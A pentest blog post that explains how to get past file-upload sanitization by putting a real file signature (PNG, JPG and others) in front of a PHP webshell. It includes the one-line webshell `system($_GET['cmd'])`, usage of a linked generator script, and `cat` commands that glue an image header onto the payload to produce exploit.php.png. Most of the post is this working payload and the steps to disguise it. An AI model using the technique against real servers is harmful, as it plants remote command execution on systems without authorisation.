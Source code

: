 ```yaml
---
layout: post
title: Custom Signature PHP Payloads  
tags:
  - Tool
  - Pentest
---
```


<div class="message">
Easily generating PHP Payloads with Custom file signatures to bypass input sanitization
</div>

![](/assets/images/cpngh/h2.png)


### What is this?
A tip on bypassing input sanitation by changing the payload signature.
This process is generally done in packet analyzer or proxy application like burp but this can be done easily without that.
We will look into two basic ways to achieve this.

### Why this works?
PHP generally start interpreting the script wherever `<?php` tag starts so anything gibberish preceding that will not be executed and that's good news for us as we can now append the payload after some file descriptors so that metadata of the file will show whatever we want it to show but it will still be a valid PHP script.

### Methods

#### Python script

Don't worry I have done the hard work for you, you just need to prepare your payload, we will put the burden of signature management to a script.

Actually this is a small project where I am collecting some of the commonly used file signatures from real files (not the internet and file format wikis) this should give all the payload more convincing results.

You can get the project from GitHub [HERE](https://github.com/Saket-Upadhyay/CustomPhpPayloadSignature)

***With custom python script***
<br>
As simple as

```sh
python cupps.py -s png
```
this will create PHP payload `<?php system($_GET['cmd']);?>` with PNG signature. this is one of the commonly  known tricks to bypass most of the basic image upload scenarios.
![](/assets/images/cpngh/cupps.png)


All the available signatures can be seen by the `-h` parameter.

```sh
$ python cupps.py -h

usage: cupps.py [-h] [-s target_signature]

Script to create PHP Payloads with custom file signatures

optional arguments:
  -h, --help            show this help message and exit
  -s target_signature, --signature target_signature
                        accepted inputs : png,jpg,exe,elf,gif,bmp,jar,pdf,iso

~ with <3 by X64M

```
> NOTE: This is an active project as of 15-08-2020 and I am trying to add more signatures to it so feel free to contribute.


***By appending output of `cat`***

This is one of the neat tricks to achieve this.

just do this :

```sh
cat image.png | head -n 3 >>exploit.php.png
```

this will take the image header and will write to the file `exploit.php.png` 

and then

```sh
cat payload.php >>exploit.php.png
```
This will append the payload to the file with an existing image header.

![](/assets/images/cpngh/bt.png)

And that would just do it.

### Conclusion
Well, that's it for this article. See ya in the next one!

Till then stay caffeinated enough!

--
